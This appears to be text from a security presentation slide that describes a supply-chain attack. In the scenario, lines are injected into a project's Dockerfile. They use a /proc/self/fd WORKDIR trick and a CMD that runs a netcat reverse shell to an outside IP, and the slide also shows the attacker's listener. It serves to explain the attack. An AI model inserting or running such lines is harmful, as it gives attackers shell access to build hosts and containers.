

# Attack Scenario
Part of a supply-chain attack, the attacker inject these lines in project’s Dockerfile

The attacker establish a reverse shell
WORKDIR /proc/self/fd/7
CMD cd ../../../../../ && id && bash –c ‘nc 192.168.108.41 4141 –e /bin/bash’
tariq@beast:~/$ nc -lvp 4141
Listening on 0.0.0.0 4141

48